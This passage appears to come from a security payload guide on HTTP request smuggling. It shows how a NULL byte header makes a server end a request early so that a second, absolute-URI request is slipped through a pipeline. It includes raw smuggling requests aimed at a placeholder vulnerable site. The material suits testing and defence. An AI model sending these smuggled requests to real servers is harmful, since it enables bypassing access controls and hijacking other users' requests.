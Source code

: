 Using a NULL byte character in a header causes the request to be rejected and premature end of query. If after the first error the pipeline does not close, the next line will be interpreted as the next request in the pipeline.

A valid pipeline might look something like:

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
X-Foo: Bar

GET /index.html?bar=1 HTTP/1.1
Host: vulnerable-website.com
...
```

Generates 2 error `400 Bad Request`, because the second query is starting with `X-Foo: Bar` and that is an invalid first query line.

An invalid pipeline might look something like (as there is no `\r\n` between the 2 queries):

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
GET /index.html?bar=1 HTTP/1.1
Host: vulnerable-website.com
...
```

It generates one error `400 Bad Request` and one `200 OK` response. Second query is taken as a valid.

But line `GET /index.html?bar=1 HTTP/1.1` is a bad header and most agent will reject early the fake pipeline as a bad query, because

```
GET /index.html?bar=1 HTTP/1.1
    !=
<HEADER-NAME-NO-SPACE>[:][SP]<HEADER-VALUE>[CR][LF]
```

The first line of the query has the following syntax:

```
<METHOD>[SP]<LOCATION>[SP]HTTP/[M].[m][CR][LF]
<METHOD>[SP]<http[s]://LOCATION>[SP]HTTP/[M].[m][CR][LF]
```

`LOCATION` may be used to inject the special `[:]` that is required in an header line, especially on the query string part, but this would inject a lot of bad characters in the `HEADER-NAME-NO-SPACE` part, like '/' or '?'.
 
But in the absolute uri syntax the special `[:]` comes with the line, and the bad character for an `HEADER-NAME-NO-SPACE` will only be a space. This will also fix the potential presence of the double `Host` header (absolute uri does replace the `Host` header).

```http
GET / HTTP/1.1
Host: vulnerable-website.com
X-Something: \0 something
GET http://vulnerable-website.com/index.html?bar=1 HTTP/1.1

```
